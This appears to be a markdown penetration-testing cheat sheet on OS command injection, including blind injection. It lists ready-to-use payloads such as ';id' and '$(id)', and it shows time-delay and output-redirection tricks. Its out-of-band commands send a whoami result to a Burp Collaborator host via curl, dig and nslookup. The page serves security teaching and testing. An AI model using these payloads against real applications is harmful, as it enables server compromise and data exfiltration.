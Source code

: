 ```yaml
---
title: Command Injection
category: Web
order: 8
---
```


# Injecting OS Commands

OS command injection is also known as shell injection. It allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data. 

Example:

A shopping application lets the user view whether an item is in stock in a particular store. This information is accessed via a URL: 

```
https://example.com/stockStatus?productID=381&storeID=29
```

To provide the stock information, the application must query various legacy systems. For historical reasons, the functionality is implemented by calling out to a shell command with the product and store IDs as arguments: 

```
python3 stockreport.py 381 29
```

If the application implements no defenses against OS command injection, an attacker could submit the following input to execute an arbitrary command: 

```
& echo aiwefwlguh &
```

Final command:

```
python3 stockreport.py & echo aiwefwlguh & 29
```

## Typicall payloads

```
;id
& id &
|| id || 
$(id)
| id |
`id`
0x0a id 0x0a
\n id
```

## Useful Commands

|   **Linux**   |  **Windows** | **Description**     |
|:-------------:|:------------:|---------------------|
|     whoami    |    whoami    | Current user        |
|    uname -a   |      ver     | OS Version          |
|    ifconfig   |   ipconfig   | Network config      |
| netstat -tlpn | netstat -ano | Network connections |
|     ps -ef    |   tasklist   | Processes           |

# Blind Command Injection

Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required. 

## Using Time Delays

The `ping` command is a good way to exploit it because we can specify the number of ICMP packets to send. This enable us to control the time taken for the command to run.

```
& ping -c 10 127.0.0.1 &
```

## Redirecting the output

We can redirect the output from the injected command into a file.

```
& whoami > /var/www/whoami.txt &
```

Finally if we achieved to redirect the output to a directory which is available on the web.

```
https://example.com/whoami.txt
```

## Out-of-band (OAST)

We can trigger an out-of-band network interaction with a system we control such as ICMP, HTTP or DNS.

> **Note**: Internet connection needed.


```
& curl http://burp-collaborator.oastify.com/rce &
& dig burp-collaborator.oastify.com &
& nslookup burp-collaborator.oastify.com &
```

We can use these channels to easily exfiltrate data:

```
& nslookup `whoami`.burp-collaborator.oastify.com &
```